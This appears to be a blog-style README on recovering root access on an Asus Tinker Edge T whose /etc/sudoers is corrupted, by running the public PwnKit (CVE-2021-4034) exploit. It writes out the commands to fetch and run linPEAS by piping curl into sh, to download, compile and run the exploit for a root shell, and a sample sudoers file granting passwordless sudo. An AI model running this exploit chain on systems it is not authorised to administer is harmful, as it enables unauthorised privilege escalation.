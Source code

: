 # Fixing Asus Tinker Edge T corrupted sudoers with PwnKit

Vendor page: <https://tinker-board.asus.com/product/tinker-edge-t.html>

## Why?

At this moment there is bug in official Asus [**Mendel 5 Eagle V3.0.2**](https://tinker-board.asus.com/forum/index.php?/topic/14395-release-tinker-edge-t-mendel-5-eagle-v302/) OS causing unable to use `sudo` command:
```
>>> /etc/sudoers: syntax error near line 28 <<<
sudo: parse error in /etc/sudoers near line 28
sudo: no valid sudoers sources found, quitting
sudo: unable to initialize policy plugin
```
Simple speaking: file `/etc/sudoers` is corrupted somehow and you **can not run any command with `sudo`**, for example `sudo apt-get update`. There is not other option how to switch to `root` user and you are locked in low privileged user. 

Or not? :)

## Hacking time!

Lets start with [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Most valuable part:
```
═════════════════════════════════════════╣ Interesting Files ╠═════════════════════════════════════════
                                         ╚═══════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
strace Not Found
-rwsr-xr-x 1 root root 31K Jan 10  2019 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 47K Jan 10  2019 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 59K Jan 10  2019 /bin/su
-rwsr-xr-x 1 root root 74K Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 150K Feb  2  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 53K Jul 27  2018 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 59K Jul 27  2018 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 40K Jul 27  2018 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 19K Nov  8  2019 /usr/bin/weston-launch (Unknown SUID binary)
-rwsr-xr-x 1 root root 23K Jan 15  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 415K Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 15K Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root messagebus 46K Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Binary called `polkit-agent-helper-1` caught my attention. In January 2022 vulnerability (CVE-2021-4034) in Polkit was discovered by [Qualys Research Team](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034):

> The Qualys Research Team has discovered a memory corruption vulnerability in polkit’s pkexec, a **SUID-root program that is installed by default on every major Linux distribution**. This easily exploited vulnerability allows any unprivileged user to gain full root privileges on a vulnerable host by exploiting this vulnerability in its default configuration.

So, it was pretty huge chance, that Mendel GNU/Linux (which is based on Debian GNU/Linux) is vulnerable too!

I choosed most rated exploit on Github: <https://github.com/arthepsy/CVE-2021-4034>. Usage is straightforward:

```
cd /home/mendel/
wget https://github.com/arthepsy/CVE-2021-4034/archive/refs/heads/main.zip
unzip main.zip
cd CVE-2021-4034-main/
gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
```

There should not be any error after compilation and we are ready to use exploit:
```
./cve-2021-4034-poc
```
and...
```
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),27(sudo),29(audio),44(video),46(plugdev),50(staff),60(games),100(users),103(netdev),107(input),109(render),110(i2c),112(systemd-journal),116(bluetooth),1000(mendel),1001(apex)
```
we are root!

Stabilizing shell first:
```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=linux
```

Next step is fixing `/etc/sudoers` file:
```
nano /etc/sudoers
```

As you can see on line 28 are some meaningless characters:
```
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@
```

Delete this line completely.

There is example of passwordless `sudo` for user is `sudo` group:
```
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Allow members of group sudo to execute any command
%sudo  ALL=(ALL) NOPASSWD: ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
```

Create new SSH connection as `mendel` user and test it:
```
mendel@king-finch:~$ sudo su -
root@king-finch:~# id
uid=0(root) gid=0(root) groups=0(root)
root@king-finch:~#
```
